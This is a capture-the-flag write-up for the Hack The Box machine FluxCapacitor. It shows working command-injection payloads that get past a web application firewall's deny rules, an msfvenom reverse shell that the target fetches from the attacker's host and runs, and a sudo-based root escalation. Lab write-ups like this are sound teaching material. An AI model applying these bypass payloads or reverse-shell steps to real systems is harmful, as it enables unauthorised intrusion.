




---
search:
  exclude: true
---
# FluxCapacitor Writeup

## Introduction :

FluxCapacitor is a Medium linux box released back in December 2017

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
      → nmap -F --top-ports 10000 10.10.10.69 -vvv
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-09 05:59 GMT
      Initiating Ping Scan at 05:59
      Scanning 10.10.10.69 [2 ports]
      Completed Ping Scan at 05:59, 0.33s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 05:59
      Completed Parallel DNS resolution of 1 host. at 05:59, 0.08s elapsed
      DNS resolution of 1 IPs took 0.09s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 05:59
      Scanning 10.10.10.69 [8320 ports]
      Discovered open port 80/tcp on 10.10.10.69
      Increasing send delay for 10.10.10.69 from 0 to 5 due to 70 out of 231 dropped probes since last increase.
      Increasing send delay for 10.10.10.69 from 5 to 10 due to max_successful_tryno increase to 4
      Connect Scan Timing: About 25.10% done; ETC: 06:01 (0:01:32 remaining)
      Connect Scan Timing: About 55.44% done; ETC: 06:01 (0:00:49 remaining)
      Completed Connect Scan at 06:01, 107.71s elapsed (8320 total ports)
      Nmap scan report for 10.10.10.69
      Host is up, received syn-ack (0.12s latency).
      Scanned at 2020-03-09 05:59:15 GMT for 108s
      Not shown: 8318 closed ports
      Reason: 8318 conn-refused
      PORT     STATE    SERVICE REASON
      80/tcp   open     http    syn-ack
      5355/tcp filtered llmnr   no-response
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → nmap -sCV -p80,5355 10.10.10.69
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-09 06:01 GMT
      Nmap scan report for 10.10.10.69
      Host is up (0.26s latency).
    
      PORT     STATE    SERVICE VERSION
      80/tcp   open     http    SuperWAF
      |_http-server-header: SuperWAF
      |_http-title: Keep Alive
      5355/tcp filtered llmnr
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 34.10 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's dirsearch it :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
      → dirsearch -u http://10.10.10.69/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -e txt,php,html,xml
    
      git clone https://github.com/maurosoria/dirsearch.git
      dirsearch -u  -e  -t 50 -x 500
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: txt, php, html, xml | HTTP method: get | Threads: 50 | Wordlist size: 220521
    
      Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-03-09_06-05-49.log
    
      Target: http://10.10.10.69/
    
      [06:05:50] Starting:
      [06:05:51] 200 -  395B  - /
      [06:07:02] 403 -  577B  - /sync
      [06:09:49] 403 -  577B  - /synctoy
      [06:10:26] 403 -  577B  - /synching
      [06:10:34] 403 -  577B  - /sync_scan
      [06:11:12] 403 -  577B  - /syncbackse
      [06:14:01] 403 -  577B  - /synch
    
    

` 

Looks like a very simple webpage, but when we look at it's sourcecode we are hinted towards a /sync directory. (which our dirsearch command found aswell) 

 

looks like we get a 403 forbidden error although we now know about a service running on the box and it's version. Hopefully for us it is vulnerable to RCE by abusing the user-agent and the opt parameter, but we need to escape some characters : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → curl "http://10.10.10.69/sync?opt=' /usr/bin/which mknod'"
      403
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → curl "http://10.10.10.69/sync?opt=' /usr/bin/whi[c]h mknod'"
      403
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → curl "http://10.10.10.69/sync?opt=' /usr/bin/whi[c]h mk\nod'"
      /bin/mknod
      bash: -c: option requires an argument
    
    

Now that we verified we could get RCE on the machine, let's get into the important parts : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
    → curl "http://10.10.10.69/sync?opt=' c\at /usr/local/ope\nresty/nginx/conf/nginx.conf'" > nginx.conf
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  3896    0  3896    0     0   9938      0 --:--:-- --:--:-- --:--:--  9938
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
    → curl "http://10.10.10.69/sync?opt=' c\at /usr/local/ope\nresty/nginx/conf/unixcmd.txt'" > unixcmd.txt
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 10822    0 10822    0     0  25167      0 --:--:-- --:--:-- --:--:-- 25109
    
    

Now that we have the nginx config and the unixcmd textfiles we can enumerate the box further looking into nginx.conf : 
    
    
      SecRuleEngine On
    		SecRule ARGS "@rx [;\(\)\|\`\<\>\&\$\*]" "id:2,phase:2,t:trim,t:urlDecode,block"
    		SecRule ARGS "@rx (user\.txt|root\.txt)" "id:3,phase:2,t:trim,t:urlDecode,block"
    		SecRule ARGS "@rx (\/.+\s+.*\/)" "id:4,phase:2,t:trim,t:urlDecode,block"
    		SecRule ARGS "@rx (\.\.)" "id:5,phase:2,t:trim,t:urlDecode,block"
    		SecRule ARGS "@rx (\?s)" "id:6,phase:2,t:trim,t:urlDecode,block"
    
    		SecRule ARGS:opt "@pmFromFile /usr/local/openresty/nginx/conf/unixcmd.txt" "id:99,phase:2,t:trim,t:urlDecode,block"
        content_by_lua_block {
        		local opt = 'date'
        		if ngx.var.arg_opt then
        			opt = ngx.var.arg_opt
        		end
    
        		-- ngx.say("DEBUG: CMD='/home/themiddle/checksync "..opt.."'; bash -c $CMD 2>&1")
    
        		local handle = io.popen("CMD='/home/themiddle/checksync "..opt.."'; bash -c ${CMD} 2>&1")
        		local result = handle:read("*a")
        		handle:close()
        		ngx.say(result)
    
    

those were the filtering rules and the command execution part, which reveals us the username "themiddle". Now to get access on the box we'll get inside by getting a reverse Xterm shell, However we need to make sure that our xserver is listening to tcp :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
    → cat /etc/X11/xinit/xserverrc
    #!/bin/sh
    
    exec /usr/bin/X -nolisten tcp "$@"
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
    → sudo nano /etc/X11/xinit/xserverrc
    [sudo] password for nihilist:
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
    → cat /etc/X11/xinit/xserverrc
    #!/bin/sh
    
    exec /usr/bin/X -listen tcp "$@"
    

From there, we connect: 

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
      → msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f elf index.html
      [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
      [-] No arch selected, selecting arch: x86 from the payload
      No encoder or badchars specified, outputting raw payload
      Payload size: 68 bytes
      Final size of elf file: 152 bytes
      ELFT44 ��1���SCSj��f̀�Y�?̀Iy�h
    
    
      h#)��fPQS���̀Rhn/shh//bi��RS��
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
      → curl "http://10.10.10.69/sync?opt=' w\get 10.10.14.11 -P /tmp'"
    

` _Terminal 2:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
      → sudo python -m SimpleHTTPServer 80
      Serving HTTP on 0.0.0.0 port 80 ...
    

` _Terminal 1:_
    
    
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
    → curl "http://10.10.10.69/sync?opt=' c\hmod +x /tmp/index.md'"
    
    

` _Terminal 2:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → sudo nc -lvnp 9001
      listening on [any] 9001 ...
    

` _Terminal 1:_
    
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
      → curl "http://10.10.10.69/sync?opt=' /tmp/index.md'"
    

And we get a reverse shell ! However there is another way to get the user flag, which is by abusing the opt parameter on the sync page using curl :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
    → curl "10.10.10.69/sync?opt=' c''at /home/FluxCapacitorIn''c/us''er.txt'"
    b8XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And we have the user flag ! 

## **Part 3 : Getting Root Access**

Now in order to privesc we run the usual sudo -l 
    
    
      $ curl "http://10.10.10.69/sync?opt=' sudo -l'"
    
      Matching Defaults entries for nobody on fluxcapacitor:
          env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
      User nobody may run the following commands on fluxcapacitor:
          (ALL) ALL
          (root) NOPASSWD: /home/themiddle/.monit
    

we are hinted towards /home/themiddle/.monit so we print it out :
    
    
      cat .monit
    
    #!/bin/bash
    
    if [ "$1" == "cmd" ]; then
        echo "Trying to execute ${2}"
        CMD=$(echo -n ${2} | base64 -d)
        bash -c "$CMD"
    fi
    

And here we see that all we need to do is passing 2 arguements : the first one being "cmd" and the second one being a base64 encoded command. so we can run it, but for this example we'll show how it can be done remotely without even having access on the system by using curl just like for the user flag : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/FluxCapacitor]
    → curl "10.10.10.69/sync?opt=' su''do /home/themiddle/.monit cmd $(echo cat /root/root.txt | base64)'"
    Trying to execute Y2F0IC9yb290L3Jvb3QudHh0Cg==
    bdXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    bash: -c: option requires an argument
    
    

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

